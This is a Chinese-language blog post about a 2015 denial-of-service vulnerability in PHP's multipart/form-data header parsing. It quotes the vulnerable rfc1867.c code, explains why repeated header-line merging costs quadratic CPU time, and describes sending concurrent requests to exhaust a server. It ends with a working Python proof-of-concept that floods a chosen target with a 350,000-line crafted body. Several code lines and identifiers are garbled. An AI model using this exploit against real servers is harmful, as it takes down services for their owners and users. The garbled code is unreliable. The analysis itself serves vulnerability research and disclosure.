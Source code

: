 ```yaml
---
layout: post
title: PHP multipart/form-data 远程DOS漏洞
date: 2015-05-25 13:31
author: admin
comments: true
categories: []
---
```

摘要：

PHP解析multipart/form-datahttp请求的body part请求头时，重复拷贝字符串导致DOS。远程攻击者通过发送恶意构造的multipart/form-data请求，导致服务器CPU资源被耗尽，从而远程DOS服务器。

 

影响范围：

PHP所有版本

 

一、漏洞入口

PHP源码中main/ rfc1867.c负责解析multipart/form-data协议，DOS漏洞出现在main/rfc46675pxultipart_buffer_headers函数。

在详细分析漏洞函数前，先分析进入漏洞函数的路径。PHP解析multipart/form-data http请求体的入口函数在SAPI_POST_HANDLER_FUNC(rfc1867.c中的函数)，代码如下。

/* Get the boundary */
boundary= strstr(content_type_dup, "boundary");
 if(!boundary) {
     intcontent_type_len = strlen(content_type_dup);
     char*content_type_lcase = estrndup(content_type_dup, content_type_len);
 
     php_strtolower(content_type_lcase,content_type_len);
     boundary= strstr(content_type_lcase, "boundary");
     if(boundary) {
             boundary= content_type_dup + (boundary - content_type_lcase);
     }
     efree(content_type_lcase);
  }
  if(!boundary || !(boundary = strchr(boundary, '='))) {
       sapi_module.sapi_error(E_WARNING,"Missing boundary in multipart/form-data POST data");
       return;
   }
   boundary++;
   boundary_len= strlen(boundary);
   …
   …
   while(!multipart_buffer_eof(mbuff TSRMLS_CC))
   {
                   charbuff[FILLUNIT];
                   char*cd = NULL, *param = NULL, *filename = NULL, *tmp = NULL;
                   size_tblen = 0, wlen = 0;
                   off_toffset;
 
                   zend_llist_clean(&header);
 
                   if(!multipart_buffer_headers(mbuff, &header TSRMLS_CC)) {
                            gotofileupload_done;
                   }
   
   SAPI_POST_HANDLER_FUNC函数首先解析请求的boundary，

 

二、漏洞函数multipart_buffer_headers执行逻辑                   

  进入漏洞函数，本段先分析漏洞函数的执行逻辑，下一段根据函数执行逻辑详细分析漏洞的原理。multipart_buffer_headers函数源码如下：

/* parse headers */
static intmultipart_buffer_headers(multipart_buffer *self, zend_llist *header TSRMLS_DC)
{
         char*line;
         mime_header_entryprev_entry = {0}, entry;
         intprev_len, cur_len;
 
         /*didn't find boundary, abort */
         if(!find_boundary(self, self->boundary TSRMLS_CC)) {
                   return0;
         }
 
         /*get lines of text, or CRLF_CRLF */
 
         while((line = get_line(self TSRMLS_CC)) && line[0] != '\0' )
         {
                   /*add header to table */
                   char*key = line;
                   char*value = NULL;
 
                   if(php_rfc1867_encoding_translation(TSRMLS_C)) {
                            self->input_encoding= zend_multibyte_encoding_detector(line, strlen(line), self->detect_order,self->detect_order_size TSRMLS_CC);
                   }
 
                   /*space in the beginning means same header */
                   if(!isspace(line[0])) {
                            value= strchr(line, ':');
                   }
 
                   if(value) {
                            *value= 0;
                            do{ value++; } while(isspace(*value));
 
                            entry.value= estrdup(value);
                            entry.key= estrdup(key);
 
                   }else if (zend_llist_count(header)) { /* If no ':' on the line, add to previousline */
 
                            prev_len= strlen(prev_entry.value);
                            cur_len= strlen(line);
 
                            entry.value= emalloc(prev_len + cur_len + 1);
                            memcpy(entry.value,prev_entry.value, prev_len);
                            memcpy(entry.value+ prev_len, line, cur_len);
                            entry.value[cur_len+ prev_len] = '\0';
 
                            entry.key= estrdup(prev_entry.key);
 
                            zend_llist_remove_tail(header);
                   }else {
                            continue;
                   }
 
                   zend_llist_add_element(header,&entry);
                   prev_entry= entry;
         }
 
         return1;
}
    multipart_buffer_headers函数首先找boundary，如果找到boundary就执行以下代码，逐行读取请求的输入以解析body port header: 

             while((line = get_line(self TSRMLS_CC)) && line[0] != '\0' ) { … }
  当使用get_line读入一行字符，如果该行第一个字符line[0]不是空白字符, 查找line是否存在':'。 

如果line存在字符':'：        

    value指向':'所在的内存地址。这时if(value)条件成立，成功解析到(header,value)对entry。调用zend_llist_add_element(header, &entry)存储，并使用prev_entry记录当前解析到的header，用于解析下一行。 

否则，line不存在字符':'：

    认为这一行的内容是上一行解析到header对应value的值，因此进行合并。合并操作执行以下代码。

    

         prev_len= strlen(prev_entry.value);
         cur_len= strlen(line);
 
         entry.value= emalloc(prev_len + cur_len + 1); //为合并value重新分片内存
         memcpy(entry.value,prev_entry.value, prev_len); //拷贝上一行解析到header对应value
         memcpy(entry.value+ prev_len, line, cur_len);   //把当前行作为上一行解析到header的value值，并拷贝到上一行value值得后面。
         entry.value[cur_len+ prev_len] = '\0';
 
         entry.key= estrdup(prev_entry.key);
 
         zend_llist_remove_tail(header);
    首先，为了合并value重新分配内存，接着拷贝上一行解析到的value值到新分配的内容，然后把当前行的字符串作为上一行解析到header的value值，并拷贝到value值得后面。最后调用zend_llist_remove_tail(header)删除上一行的记录。执行完后获得了新的entry，调用zend_llist_add_element(header,&entry)记录得到的header名值对(header,value)。

        

 

三、漏洞原理：

  在multipart_buffer_headers函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块。该代码块进行1次内存分配，2次内存拷贝，1次内存释放。当value值越来越长，将消耗大量的cpu时间。如果以拷贝一个字节为时间复杂度单位，value的长度为m，时间复杂度为m*m.

 prev_len= strlen(prev_entry.value);
         cur_len= strlen(line);
 
         entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存
         memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝
         memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝
         entry.value[cur_len+ prev_len] = '\0';
 
         entry.key= estrdup(prev_entry.key);
 
         zend_llist_remove_tail(header);//1次内存释放


四、利用：

  构造恶意的http请求，在我的测试环境中，一个http请求将消耗10s的cpu时间。每隔若干秒，同时并发多个请求，将导致server端cpu资源长期耗尽，从而到达DOS。总的来说，利用方式和Hash Collision DOS一样。



五、POC

'''
Author: Shusheng Liu,The Department of Security Cloud, Baidu
email: liusscs@163.com
'''
import sys
import urllib,urllib2
import datetime
from optparse import OptionParser

def http_proxy(proxy_url):

    proxy_handler = urllib2.ProxyHandler({"http" : proxy_url})
    null_proxy_handler = urllib2.ProxyHandler({})
    opener = urllib2.build_opener(proxy_handler)
    urllib2.install_opener(opener)
#end http_proxy 

def check_php_multipartform_dos(url,post_body,headers):
	req = urllib2.Request(url)
	for key in headers.keys():
		req.add_header(key,headers[key])
	starttime = datetime.datetime.now();
	fd = urllib2.urlopen(req,post_body)
	html = fd.read()
	endtime = datetime.datetime.now()
	usetime=(endtime - starttime).seconds
	if(usetime > 5):
		result = url+" is vulnerable";
	else:
		if(usetime > 3):
			result = "need to check normal respond time"
	return [result,usetime]
#end


def main():
    #http_proxy("http://127.0.0.1:8089")
    parser = OptionParser()
    parser.add_option("-t", "--target", action="store", 
                  dest="target", 
                  default=False, 
		  type="string",
                  help="test target")
    (options, args) = parser.parse_args()
    if(options.target):
	target = options.target
    else:
	return;

    Num=350000
    headers={'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundaryX3B7rDMPcQlzmJE1',
            'Accept-Encoding':'gzip, deflate',
            'User-Agent':'Mozillal/5.0 (Windows NT 6.1; WOW64) AppleWebKiti/537.36 (KHTML, like Gecko) Chromeu/40.0.2214.111 Safariss/537.36'}
    body = "------WebKitFormBoundaryX3B7rDMPcQlzmJE1\nContent-Disposition: form-data; name=\"file\"; filename=sp.jpg"
    payload=""
    for i in range(0,Num):
        payload = payload + "a\n"
    body = body + payload;
    body = body + "Content-Type: application/octet-stream\r\n\r\ndatadata\r\n------WebKitFormBoundaryX3B7rDMPcQlzmJE1--"
    print "starting...";
    respond=check_php_multipartform_dos(target,body,headers)
    print "Result : "
    print respond[0]
    print "Respond time : "+str(respond[1]) + " seconds";

if __name__=="__main__":
    main()

